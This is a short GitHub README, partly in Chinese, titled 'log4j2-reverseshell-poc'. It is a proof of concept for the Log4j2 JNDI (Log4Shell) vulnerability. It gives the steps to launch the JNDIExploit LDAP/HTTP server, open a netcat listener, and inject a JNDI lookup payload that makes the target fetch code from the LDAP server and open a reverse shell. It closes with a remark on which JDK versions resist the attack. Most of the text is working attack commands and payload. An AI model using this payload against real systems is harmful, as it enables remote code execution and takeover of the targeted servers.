 # log4j2-reverseshell-poc

1、使用JNDIExploit启动LDAP与 HTTP  https://github.com/0x727/JNDIExploit

eleven@192 ~> java -jar   JNDIExploit-1.3-SNAPSHOT.jar -i 127.0.0.1
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 3456...
2、nc 开启监听

eleven@192 ~> nc -l 127.0.0.1 8088 -v
 
3、payload：

${jndi:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/8088}

<img width="941" alt="image" src="https://user-images.githubusercontent.com/21239564/145577752-17e1c9b4-a7ef-4568-9208-e0461d62b3e2.png">

<img width="789" alt="image" src="https://user-images.githubusercontent.com/21239564/145577807-8e978537-00cc-46c5-90ca-afb9544f27ac.png">


当前版本1.8.0_181 ，jdk1.8.191以上默认不支持ldap协议无法复现
